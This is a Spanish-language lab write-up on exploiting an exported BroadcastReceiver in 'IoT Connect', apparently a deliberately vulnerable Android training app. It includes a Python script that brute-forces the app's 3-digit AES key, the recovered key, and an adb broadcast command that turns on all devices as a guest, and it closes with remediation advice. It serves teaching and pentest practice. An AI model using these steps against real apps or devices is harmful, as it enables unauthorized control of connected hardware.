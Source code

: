 # 🔓 IoT Connect - Análisis y Explotación de BroadcastReceiver Vulnerable

Este repositorio documenta el análisis completo y explotación de una vulnerabilidad crítica en una aplicación Android IoT ficticia, **IoT Connect**, utilizada como laboratorio para prácticas de pentesting móvil.

---

## 🧪 Instalación y Registro

Comenzamos instalando el APK en el dispositivo.

![Instalación del APK](imagenes/01_instalacion_apk.png)

Creamos una nueva cuenta de usuario:  
`fr3do : fr3do`

![Formulario de registro](imagenes/02_signup_form.png)  
![Registro exitoso](imagenes/03_signup_success.png)  
![Inicio de sesión](imagenes/04_login.png)

---

## 🔍 Exploración del Comportamiento

Una vez dentro de la app, notamos que algunos dispositivos pueden ser controlados.

![Vista de control de artefactos](imagenes/05_dispositivos_apagados.png)

Pero como usuario invitado, aparece el mensaje:

> **"Sorry Guest..."**

Esto sugiere que existen funciones ocultas o limitadas por permisos. Es el punto de partida para el análisis en `jadx-gui`.

![Mensaje de error de Guest](imagenes/06_sorry_guest.png)

---

## 🧬 Análisis Estático con jadx-gui

### AndroidManifest.xml

Exploramos el archivo `AndroidManifest.xml` y encontramos:

```xml
<receiver
    android:name="com.mobilehackinglab.iotconnect.MasterReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter>
        <action android:name="MASTER_ON"/>
    </intent-filter>
</receiver>
```
✅ Está exportado, lo que significa que cualquier app externa o ADB puede enviarle un intent.
Componentes Relevantes

Componentes Relevantes
Componentes encontrados en el AndroidManifest:

MainActivity, LoginActivity, SignupActivity

IoTNavigationActivity, HomeActivity

MasterSwitchActivity – Su nombre sugiere control administrativo o maestro.

CommunicationManager – Maneja las comunicaciones, y contiene el método initialize() que registra dinámicamente el receptor para MASTER_ON.

Lógica en CommunicationManager
En la clase CommunicationManager:

Se registra dinámicamente un BroadcastReceiver para la acción MASTER_ON.

Se extrae un parámetro key del Intent.

Se verifica mediante Checker.INSTANCE.check_key(key).

Si es válido, se llama a turnOnAllDevices(context).

Análisis de Seguridad: Checker
En la clase Checker se encuentra lo siguiente:
```
java
Copiar
Editar
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

public final boolean check_key(int key) {
    return decrypt(ds, key).equals("master_on");
}
```
El string cifrado se desencripta con AES/ECB/PKCS5Padding.

La clave se genera con el valor entero del PIN proporcionado.

Si el resultado es "master_on" el acceso es válido.


## 🧨 Fuerza Bruta del PIN
Como el PIN es de 3 dígitos, creamos un script Python para romper la clave por fuerza bruta.

### Código Python
```
from Crypto.Cipher import AES
from base64 import b64decode

ds = "OSnaALIWUkpOziVAMycaZQ=="

def generate_key(key):
    key_bytes = bytearray(16)
    static_bytes = str(key).encode("utf-8")
    key_bytes[:len(static_bytes)] = static_bytes[:16]
    return bytes(key_bytes)

def decrypt(ds, key):
    secret_key = generate_key(key)
    cipher = AES.new(secret_key, AES.MODE_ECB)
    decrypted = cipher.decrypt(b64decode(ds))
    return decrypted.decode("utf-8")

for i in range(100, 1000):
    try:
        result = decrypt(ds, i)
        if "master_on" in result:
            print(f"✔️ Key encontrada: {i}, Resultado: {result}")
            break
    except Exception:
        continue
```

Resultado:

```
✔️ Key encontrada: 345, Resultado: master_on
🚀 Explotación desde ADB
Ahora podemos explotar la vulnerabilidad usando el siguiente comando ADB:
```

```
adb shell am broadcast -a MASTER_ON --ei key 345
```
Resultado:

✅ El sistema responde:
All devices are turned on

✅ Confirmamos que, incluso como "Guest", pudimos activar todos los artefactos IoT.



✅ Conclusión
Se descubrió un BroadcastReceiver vulnerable expuesto sin validación de permisos.

Fue posible forzar la clave por fuerza bruta (solo 3 dígitos).

Se obtuvo control total de los dispositivos conectados simplemente enviando un Intent.

## 🛡️ Recomendaciones de Seguridad
Establecer android:exported="false" para componentes sensibles.

Validar siempre permisos y autenticación en receivers.

Utilizar claves fuertes y derivadas de métodos seguros (PBKDF2, bcrypt, etc).

No usar AES en modo ECB (es inseguro y predecible).

Evitar lógica de seguridad crítica en el lado cliente.

## 📁 Créditos
Análisis realizado por fr3do

Laboratorio: IoT Connect - Mobile Hacking Lab

